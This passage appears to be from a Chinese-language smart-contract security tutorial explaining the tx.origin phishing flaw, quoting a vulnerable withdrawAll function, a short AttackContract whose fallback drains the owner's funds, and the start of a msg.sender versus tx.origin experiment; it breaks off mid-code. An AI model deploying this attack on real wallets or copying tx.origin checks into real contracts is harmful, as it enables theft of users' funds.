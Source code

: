 我们具体来看这个代码，这里存在一个转账函数，而转账是将`A用户中的余额转给_recipient对应的地址`。然而在转账前我们需要进行一个初始判断：`require(tx.origin == owner)`，即我们合约的拥有者必须==`tx.origin`。

下面我们再来看攻击者合约：

```
contract AttackContract { 

    Phishable phishableContract; 
    address attacker; // The attackers address to receive funds.

    constructor (Phishable _phishableContract, address _attackerAddress) { 
        phishableContract = _phishableContract; 
        attacker = _attackerAddress;
    }

    function () { 
        phishableContract.withdrawAll(attacker); 
    }
}
```

在这个攻击合约中，我们看到它在构造函数中new了`Phishable`对象，
然后传入了攻击者地址。之后又定义了`fallback`函数，而在函数中调用了`phishableContract`对象的`withdrawAll ()`函数。

之后我们来分析下攻击是如何产生的。

根据我们前面写过的文章，我们知道`fallback`函数会在转账的时候被默认调用，所以这个地方就存在了很多隐患。

我们假设一个场景，倘若攻击者通过各种方法（包括诈骗、诱导等）使用户A向攻击者进行一些转账操作，那么他就会默认的调用`phishableContract.withdrawAll(attacker);`函数。而对于此函数我们具体来看：

```
function withdrawAll(address _recipient) public {
        require(tx.origin == owner);
        _recipient.transfer(this.balance); 
    }
```

在这个函数中，攻击者将_recipient参数赋值为自己的地址，也就为了用户能够将钱转给攻击者做准备。之后我们来看，倘若此时攻击者绕过了require的限制，那么ta就有可能把用户的钱全部转走。那么攻击者是否能绕过呢？答案是肯定的。

简单来说，此时**User --调用-->Attack的回调函数--调用-->User的withdraw函数**，而呈现出来的`tx.origin`是==合约创世人owner的。

我们做一个简单的实验：

合约内容

```
pragma solidity ^0.4.18;

contract UserWallet {

    address public owner;
    address public owner1;
    function setOwner() public returns(address){
    //   owner = msg.sender;
      return msg.sender;
   }

   function setOwner1() public returns(address){
    //   owner1 = tx.origin;
      return tx.origin;
   }
}

contract abc {

    UserWallet test = UserWallet(0x9dd1e8169e76a9226b07ab9f85cc20a5e1ed44dd);

```